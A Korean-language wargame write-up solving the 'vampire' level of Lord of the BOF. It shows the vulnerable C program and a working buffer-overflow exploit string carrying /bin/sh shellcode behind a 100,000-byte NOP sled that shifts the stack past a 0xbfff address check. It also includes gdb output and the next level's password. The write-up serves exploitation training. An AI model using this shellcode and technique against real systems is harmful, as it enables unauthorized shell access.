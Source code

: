 # troll -> vampire
``` C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```
vampire.c 코드는 위와 같다.
```
 if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }
```
이러한 조건 때문에 0xbfff영역을 사용하지 못한다.
```
[troll@localhost troll]$ cd /tmp/dirvampire
[troll@localhost dirvampire]$ cp ~/vampire .
[troll@localhost dirvampire]$ ./vampire `python -c 'print "A"*44+"\xbf\xbf\xbf\xbf"+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¿¿¿¿1ÀPh//shh/bin‰ãPS‰á‰Â°
                                                                      Í€
Segmentation fault (core dumped)
[troll@localhost dirvampire]$ gdb -q -c core
Core was generated by `'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
(gdb) x/x $esp
0xbffe74a0:     0x90909090
```
위의 payload를 보면 NOP을 10만개를 입력하여 스택 프레임을 크게 하였다. 그리고 core 파일을 통해 주소를 확인해 보면
0xbffe 영역을 사용하고 있는 것을 알 수 있다. 스택이 커질수록 낮은 주소를 사용하는 점을 이용하면 금방 풀 수 있는 문제이다.
NOP을 10만개 해주었으니 0xbffe 중 거의 아무곳이나 return address로 해도 상관 없다.
```
[troll@localhost troll]$ ./vampire `python -c 'print "A"*44+"\xa0\x74\xfe\xbf"+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA tþ¿1ÀPh//shh/bin‰ãPS‰á‰Â°
                                                                      Í€
bash$ my-pass
euid = 509
music world
```
stack의 특성을 잘 이해하면  풀 수 있는 문제이다.








